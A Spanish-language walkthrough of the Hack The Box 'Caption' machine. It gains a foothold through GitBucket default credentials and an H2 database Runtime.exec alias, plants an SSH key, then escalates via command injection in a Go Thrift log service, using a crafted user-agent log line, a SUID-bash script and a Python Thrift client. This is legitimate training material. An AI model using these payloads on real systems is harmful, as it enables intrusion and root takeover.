


+++
author = "Andrés Del Cerro"
title = "Hack The Box: Caption Writeup | Hard"
date = "2025-03-19"
description = ""
tags = [
    "HackTheBox",
    "Caption",
    "Writeup",
    "Cybersecurity",
    "Penetration Testing",
    "CTF",
    "Reverse Shell",
    "Privilege Escalation",
    "RCE",
    "Exploit",
    "Linux",
    "HTTP Enumeration",
    "Git Bucket Enumeration",
    "Abusing Default Credentials",
    "Information Disclosure",
    "Abusing H2 Database",
    "Port Forwarding",
    "Code Analysis",
    "Command Injection",
    "Abusing Thrift Protocol",
    "Python Scripting",
    "Scripting"
]

+++

# Hack The Box: Caption Writeup

Welcome to my detailed writeup of the hard difficulty machine **"Caption"** on Hack The Box. This writeup will cover the steps taken to achieve initial foothold and escalation to root.

# TCP Enumeration

```console
$ rustscan -a 10.129.230.251 --ulimit 5000 -g
10.129.230.251 -> [22,80,8080]
```

```console
$ nmap -p22,80,8080 -sCV 10.129.230.251 -oN allPorts                                                                                                                                                                                                                                                                 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-15 18:45 CEST                                                                                                                                                                                                                                                          
Stats: 0:00:12 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan                                                                                                                                                                                                                                                  
Service scan Timing: About 33.33% done; ETC: 18:46 (0:00:12 remaining)                                                                                                                                                                                                                                                       
Nmap scan report for 10.129.230.251                                                                                                                                                                                                                                                                                          
Host is up (0.23s latency).                                                                                                                                                                                                                                                                                                  
                                                                                                                                                                                                                                                                                                                             
PORT     STATE SERVICE    VERSION                                                                                                                                                                                                                                                                                            
22/tcp   open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)                                                                                                                                                                                                                                      
| ssh-hostkey:                                                                                                                                                                                                                                                                                                               
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)                                                                                                                                                                                                                                                              
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)                                                                                                                                                                                                                                                            
80/tcp   open  http                                                                                                                                                                                                                                                                                                          
| fingerprint-strings:                                                                                                                                                                                                                                                                                                       
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, RPCCheck, RTSPRequest, X11Probe:                                                                                                                                                                                                                                        
|     HTTP/1.1 400 Bad request                                                                                                                                                                                                                                                                                               
|     Content-length: 90                                                                                                                                                                                                                                                                                                     
|     Cache-Control: no-cache                                                                                                                                                                                                                                                                                                
|     Connection: close                                                                                                                                                                                                                                                                                                      
|     Content-Type: text/html                                                                                                                                                                                                                                                                                                
|     <html><body><h1>400 Bad request</h1>                                                                                                                                                                                                                                                                                   
|     Your browser sent an invalid request.                                                                                                                                                                                                                                                                                  
|     </body></html>                                                                                                                                                                                                                                                                                                         
|   FourOhFourRequest, GetRequest, HTTPOptions:                                                                                                                                                                                                                                                                              
|     HTTP/1.1 301 Moved Permanently                                                                                                                                                                                                                                                                                         
|     content-length: 0                                                                                                                                                                                                                                                                                                      
|     location: http://caption.htb                                                                                                                                                                                                                                                                                           
|_    connection: close                                                                                                                                                                                                                                                                                                      
|_http-title: Did not follow redirect to http://caption.htb                                                                                                                                                                                                                                                                  
8080/tcp open  http-proxy                                                                                                                                                                                                                                                                                                    
|_http-title: GitBucket                                                                                                                                                                                                                                                                                                      
| fingerprint-strings:  
.......
```

# UDP Enumeration

```console
$ sudo nmap --top-ports 1500 -sU --min-rate 5000 -n -Pn 10.129.230.251 -oN allPorts.UDP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-15 18:47 CEST
Nmap scan report for 10.129.230.251
Host is up (0.036s latency).
Not shown: 1494 open|filtered udp ports (no-response)
PORT      STATE  SERVICE
120/udp   closed cfdptkt
1049/udp  closed td-postman
26219/udp closed unknown
31625/udp closed unknown
41702/udp closed unknown
61319/udp closed unknown

Nmap done: 1 IP address (1 host up) scanned in 0.83 seconds
```

Del escaneo inicial detectamos dos cosas interesantes, un dominio `caption.htb` que vamos a añadir al `/etc/hosts` y una instancia de `GitBucket` en el puerto 8080.

# HTTP Enumeration

`whatweb` nos reporta que nos enfrentamos contra un Flask probablemente y una cabecera un poco extraña, `x-varnish`
```console
$ whatweb http://caption.htb
http://caption.htb [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[Werkzeug/3.0.1 Python/3.10.12], IP[10.129.230.251], PasswordField[password], Python[3.10.12], Script, Title[Caption Portal Login], UncommonHeaders[x-varnish], Varnish, Via-Proxy[1.1 varnish (Varnish/6.6)], Werkzeug[3.0.1], X-UA-Compatible[IE=edge]
```

Vemos un panel de inicio de sesión.


Como es una instancia de Flask, es común encontrarse en algunas un endpoint `/console` con una consola que normalmente está protegida con un PIN, pero no es el caso.


Con `feroxbuster` al fuzzear encontramos algunas rutas interesantes.
```console
$ feroxbuster -u http://caption.htb -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -d 1 -t 100
403      GET        4l        8w       94c http://caption.htb/download
200      GET      208l      330w     4412c http://caption.htb/
302      GET        5l       22w      189c http://caption.htb/home => http://caption.htb/
403      GET        4l        8w       94c http://caption.htb/Download
302      GET        5l       22w      189c http://caption.htb/logout => http://caption.htb/
302      GET        5l       22w      189c http://caption.htb/firewalls => http://caption.htb/
403      GET        4l        8w       94c http://caption.htb/logs
```


Por ahora no puedo hacer nada, así que vamos a enumerar el `GitBucket`.

# GitBucket Enumeration
No vemos ningún repositorio público.


Buscando las credenciales por defecto son `root:root`


Y podemos iniciar sesión.


## Enumerating GitBucket Projects
El proyecto de `Caption-Portal` se refiere al sitio web que hemos visto antes.
Podemos ver que `varnish` se encuentra en el puerto 8000 interno.


También vemos que existe otro servicio interno en el puerto 6081.


Revisando los commits nos encontramos unas credenciales. `margo:vFr&cS2#0!`


Con ellas podemos iniciar sesión pero el sitio se ve muy estático y no encuentro nada relevante.


El token JWT es muy minimalista y no contiene ni información sobre los roles.


También vemos otro proyecto llamado `Logservice` hecho en Go.


Rápidamente vemos que está aplicando una expresión regular sobre un capo `User-Agent` y que este programa está en escucha en el puerto 9090 interno de la máquina. Por ahora no podemos hacer nada.

## Abusing H2 -> RCE -> Foothold
Viendo la configuración de la instancia de  `GitBucket` podemos ver que la base de datos que se utiliza por detrás es H2, y vemos una ruta. `/home/margo/.gitbucket`


Y vemos esta opción que parece interesante. `Database viewer`


Buscando un poco me encontré [este post en HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/h2-java-sql-database) que nos muestra como podemos conseguir RCE a través de una instancia de una base de datos H2.

Nos vamos a descargar este archivo.
```console
$ wget https://gist.githubusercontent.com/h4ckninja/22b8e2d2f4c29e94121718a43ba97eed/raw/152ffcd996497e01cfee1ceb7237375f1a1e72f2/h2-exploit.py
```

Analizando el exploit vemos que utiliza este payload.
```
CREATE ALIAS EXECVE AS $$ String execve(String cmd) throws java.io.IOException { 
    java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A"); 
    return s.hasNext() ? s.next() : "";  }$$;
```

Nos lo vamos a copiar y lo ejecutamos en el `dbviewer`

Vemos que todo ha salido bien.


Ahora si intentamos usar el exploit que hemos utilizado vemos que conseguimos RCE.


Pero por alguna razón no puedo mandarme la reverse shell.


Vemos que el usuario `margo` tiene una clave privada.


Utilizando esta clave privada no podemos iniciar sesión por SSH.
```console
$ ssh -i /home/pointedsec/.ssh/id_rsa margo@caption.htb
margo@caption.htb's password: 
```

Vamos a añadir mi clave pública al `authorized_keys` de `margo` para intentar iniciar sesión de esta manera.

Nos copiamos mi clave pública como `authorized_keys`
```console
$ cp /home/pointedsec/.ssh/id_rsa.pub authorized_keys
```

La servimos por el puerto 8081.
```console
$ python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
```

Ahora la descargamos en la máquina víctima.


Vemos que me llega una solicitud.
```console
$ python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
10.129.230.251 - - [15/Sep/2024 19:29:55] "GET /authorized_keys HTTP/1.1" 200 -
```

Podemos comprobar que todo ha salido bien.


Y ya simplemente podemos iniciar sesión por SSH.
```console
$ ssh margo@caption.htb
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-119-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sun Sep 15 05:32:29 PM UTC 2024

  System load:  0.08              Processes:             234
  Usage of /:   69.2% of 8.76GB   Users logged in:       0
  Memory usage: 29%               IPv4 address for eth0: 10.129.230.251
  Swap usage:   0%


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

3 additional security updates can be applied with ESM Apps.
Learn more about enabling ESM Apps service at https://ubuntu.com/esm

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Sun Sep 15 17:30:42 2024 from 10.10.14.104
margo@caption:~$ id
uid=1000(margo) gid=1000(margo) groups=1000(margo)
```

Podemos leer la flag de usuario.
```console
margo@caption:~$ cat user.txt 
bd2fa255c446bc...
```

# Privilege Escalation
Encontramos otro usuario llamado `ruth` en el sistema.
```console
margo@caption:~$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
margo:x:1000:1000:,,,:/home/margo:/bin/bash
ruth:x:1001:1001:,,,:/home/ruth:/bin/bash
```

Enumerando puertos internos nos encontramos varios interesantes, algunos los habíamos visto antes.
```console
margo@caption:~$ netstat -tulnp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:6082          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:6081          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:8080            0.0.0.0:*               LISTEN      1033/java           
tcp        0      0 127.0.0.1:3923          0.0.0.0:*               LISTEN      1043/python3        
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      1034/python3        
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:9090          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
udp        0      0 0.0.0.0:68              0.0.0.0:*                           -                   
```

El que mas me llama la atención es el puerto 9090 ya que corresponde al programa escrito en Go que hemos visto antes.

## Port Forwarding
Me voy a compartir este puerto a mi máquina para jugar con la aplicación.
```console
$ ssh margo@caption.htb -L 9090:127.0.0.1:9090
```

## Go Code Analysis
Vemos que se utiliza una dependencia llamada `thrift`.

> Apache Thrift es un protocolo implementado en los procesos de la gestión de los macrodatos. De manera que este, prácticamente, es un protocolo que permite pasar objetos en binario a partir de un código generado.

Y vemos un archivo `log_service.thrift` por lo cual quiero pensar que a través del protocolo se está pasando este objeto que lo que hace es leer un archivo.


Esto significa que nos podemos comunicar con el servidor a través de un cliente siempre que tengamos este objeto para poder emitir a través del protocolo Thrift. Es decir, la petición que le vamos a hacer al servidor tiene que ser utilizando este objeto que sirve para leer un log.

**ReadLogFile(ctx context.Context, filePath string)**
```go
func (l *LogServiceHandler) ReadLogFile(ctx context.Context, filePath string) (r string, err error) {
    file, err := os.Open(filePath)
    if err != nil {
        return "", fmt.Errorf("error opening log file: %v", err)
    }
    defer file.Close()
    ipRegex := regexp.MustCompile(`\b(?:\d{1,3}\.){3}\d{1,3}\b`)
    userAgentRegex := regexp.MustCompile(`"user-agent":"([^"]+)"`)
    outputFile, err := os.Create("output.log")
    if err != nil {
        fmt.Println("Error creating output file:", err)
        return
    }
    defer outputFile.Close()
    scanner := bufio.NewScanner(file)
    for scanner.Scan() {
        line := scanner.Text()
        ip := ipRegex.FindString(line)
        userAgentMatch := userAgentRegex.FindStringSubmatch(line)
        var userAgent string
        if len(userAgentMatch) > 1 {
            userAgent = userAgentMatch[1]
        }
        timestamp := time.Now().Format(time.RFC3339)
        logs := fmt.Sprintf("echo 'IP Address: %s, User-Agent: %s, Timestamp: %s' >> output.log", ip, userAgent, timestamp)
        exec.Command{"/bin/sh", "-c", logs}
    }
    return "Log file processed",nil
}
```
Este método toma como parámetro una ruta de archivo (`filePath`), lee su contenido línea por línea, y extrae dos tipos de información usando expresiones regulares:

1. **Direcciones IP** (patrón: `\b(?:\d{1,3}\.){3}\d{1,3}\b`).
    
2. **User-Agent** (patrón: `"user-agent":"([^"]+)"`), para extraer la cadena de User-Agent del log.
    

- **Procesamiento**: Por cada línea del archivo, encuentra una dirección IP y un User-Agent. Si los encuentra, genera una cadena con esta información junto con una marca de tiempo (`timestamp`).
- **Salida**: En lugar de escribir directamente en el archivo, utiliza el comando `echo` de shell (`/bin/sh`) para redirigir la información procesada al archivo `output.log`.

El error en este código es que por cada Log se ejecuta por alguna razón un `/bin/sh` para guardar a un archivo en vez de utilizar la forma nativa en Go para hacer esto. Esto significa que si conseguimos insertar un log malicioso podríamos ejecutar un comando en la máquina víctima.

Todavía no se si este proceso lo está ejecutando `root` ya que aún no he enumerado a fondo la máquina víctima, pero ya estoy hecho a los CTF's y viendo que esta máquina la resolvieron en 10 minutos la parte de la escalada de privilegios...

Entonces, si tenemos un log que por ejemplo
```swift
127.0.0.1 - - [12/Sep/2024:15:03:21 +0000] "GET / HTTP/1.1" 200 2326 "-" "user-agent\":\"Mozilla/5.0\"; /bin/bash -c 'bash /tmp/pwn.sh' #"
```

Esto significa que por línea de comandos se ejecutará lo siguiente:
```bash
echo 'IP Address: 127.0.0.1, User-Agent: Mozilla/5.0"; /bin/bash -c 'bash /tmp/pwn.sh' #, Timestamp: 2024-09-12T15:03:21Z' >> output.log
```

## Command Injection
Por lo cual se ejecutaría un script en `/tmp/pwn.sh`
Entonces en la máquina víctima nos vamos a crear el script malicioso.
```console
margo@caption:/tmp$ cat pwn.sh 
#!/bin/bash

chmod u+s /bin/bash
```

También vamos a crear el log malicioso en `/tmp/evil.log`
```console
margo@caption:/tmp$ cat evil.log 
127.0.0.1 - - [12/Sep/2024:15:03:21 +0000] "GET / HTTP/1.1" 200 2326 "-" "user-agent\":\"Mozilla/5.0\"; /bin/bash -c 'bash /tmp/pwn.sh' #"
```

Ahora como he dicho antes, necesitamos el archivo `log_service.thrift` para poder mandar una petición al servidor, así que en nuestra máquina de atacante nos lo creamos.
```console
$ cat log_service.thrift 
namespace go log_service
     
service LogService {
        string ReadLogFile(1: string filePath)
}
```

Y vamos a hacer un simple script en Python que interactúe con este protocolo y lea el archivo log malicioso que hemos creado para que se acontezca la inyección de comandos.

Primero instalamos `thrift` para python.
```console
$ pip install thrift
```

Ahora instalamos `thrift-compiler` para convertir el archivo `log_service.thrift` en un formato para python.

```console
$ sudo apt update
$ sudo apt install thrift-compiler
```

Ahora generamos los archivos necesarios para python para usar el objeto de Thrift.
```console
$ thrift --gen py log_service.thrift
```

Vemos que me ha creado un directorio `gen-py`
```console
$ ls
gen-py  log_service.thrift
```

Este es el script que he creado, simplemente hace uso de Thrift y del objeto para comunicarse con el servicio que está en el puerto 9090 "port-forwadeado" y enviar que quiero procesar el log en `/tmp/evil.log`.
```python
import sys
from thrift import Thrift
from thrift.transport import TSocket
from thrift.transport import TTransport
from thrift.protocol import TBinaryProtocol
from log_service import LogService  # El archivo generado a partir del .thrift

def main():
    try:
        # Crear transporte
        transport = TSocket.TSocket('127.0.0.1', 9090)
        
        # Buffer del transporte
        transport = TTransport.TBufferedTransport(transport)
        
        # Protocolo binario
        protocol = TBinaryProtocol.TBinaryProtocol(transport)
        
        # Crear cliente
        client = LogService.Client(protocol)
        
        # Abrir el transporte
        transport.open()

        # Hacer la solicitud para leer el log
        result = client.ReadLogFile('/tmp/evil.log')
        print(f"Resultado de la lectura del log: {result}")

        # Cerrar el transporte
        transport.close()

    except Thrift.TException as tx:
        print(f"Error: {tx.message}")

if __name__ == "__main__":
    main()
```

Si lo ejecutamos.
```console
$ python3 pwn.py 
Resultado de la lectura del log: Log file processed
```

Pero no hemos conseguido el SUID en la `bash`
```console
margo@caption:/tmp$ ls -la /bin/bash
-rwxr-xr-x 1 root root 1396520 Mar 14  2024 /bin/bash
```

Vamos a hacer una prueba.

Voy a modificar el script a ejecutar para mandarme un ping.
```console
margo@caption:/tmp$ cat /tmp/pwn.sh 
#!/bin/bash

ping -c 1 10.10.14.104
```

Y llegué a la conclusión que lo que estaba mal era el log malicioso.

Entonces.

La expresión regular para `userAgentRegex` es:
```regex
"user-agent":"([^"]+)"
```

Esto significa que está buscando una cadena que coincida con el formato:

- **"user-agent"**: Esta parte debe aparecer literalmente en el texto.
- **":"**: Luego debe haber dos puntos seguidos de una comilla doble.
- **([^"]+)**: Este grupo captura cualquier conjunto de caracteres que no contenga comillas dobles (`"`) y los guarda como el valor del "User-Agent".
- **"**: Finalmente, debe haber otra comilla doble para cerrar el valor.

Y en el log que tengo ahora creado, estamos escapando las comillas y en general está mas formulado.

Por lo cual podemos crear un archivo que si cumpla con estos parámetros.
```console
margo@caption:/tmp$ cat evil.log 
192.168.1.1 - - [12/Sep/2024:15:03:21 +0000] "POST /login HTTP/1.1" 200 1456 "-" "user-agent":"'; /bin/bash /tmp/pwn.sh #"
```

Y al intentar procesar el log ahora.
```console
$ python3 pwn.py 
Resultado de la lectura del log: Log file processed
```

Vemos que me llega el ping, por lo cual ahora si que estamos haciendo correctamente la inyección de comandos.
```console
$ sudo tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
20:15:07.462286 IP caption.htb > 10.10.14.104: ICMP echo request, id 4, seq 1, length 64
20:15:07.462559 IP 10.10.14.104 > caption.htb: ICMP echo reply, id 4, seq 1, length 64
```

Ahora modificamos el script malicioso para darle el bit de SUID a la `bash` para poder lanzarnos una consola privilegiada.
```console
margo@caption:/tmp$ cat /tmp/pwn.sh 
#!/bin/bash

chmod u+s /bin/bash
```

Y si lanzamos otra vez nuestro script y comprobamos la `bash`
```console
margo@caption:/tmp$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1396520 Mar 14  2024 /bin/bash
```

Por lo cual simplemente para escalar privilegios podemos lanzarnos una `bash` como el propietario con `bash -p`
```console
bash-5.1# id
uid=1000(margo) gid=1000(margo) euid=0(root) groups=1000(margo)
```

Podemos leer la flag de `root`
```console
bash-5.1# cat /root/root.txt 
993de3b56e4e458...
```

¡Y ya estaría!

Happy Hacking! 🚀